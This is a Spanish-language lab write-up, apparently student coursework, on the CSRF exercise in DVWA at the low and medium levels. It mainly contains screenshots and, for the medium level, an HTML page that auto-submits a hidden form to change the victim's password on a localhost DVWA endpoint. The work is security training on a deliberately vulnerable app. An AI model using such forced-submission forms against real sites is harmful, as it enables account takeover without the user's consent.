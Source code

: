 # 🛡️ CSRF

## LOW
## 📋 Explicación
Lo único que tenemos que hacer en este es añadri la nueva password y cambiarla.

## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf1.png)
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf2.png)
---

## MEDIUM
## 📋 Explicación
En este caso, tenemos que crear un archivo llamado csrf.php con el código de abajo y subir el archivo a DVWA.

## 🖥️ Explicación
```bash
<html>
  <body>
    <form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST">
      <input type="hidden" name="password_new" value="pass" />
      <input type="hidden" name="password_conf" value="pass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## 📸 Captura de pantalla
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf3.png)
![a2dismod](https://github.com/PPS10711021/RA3/blob/main/RA3/RA3_2/images/csrf4.png)
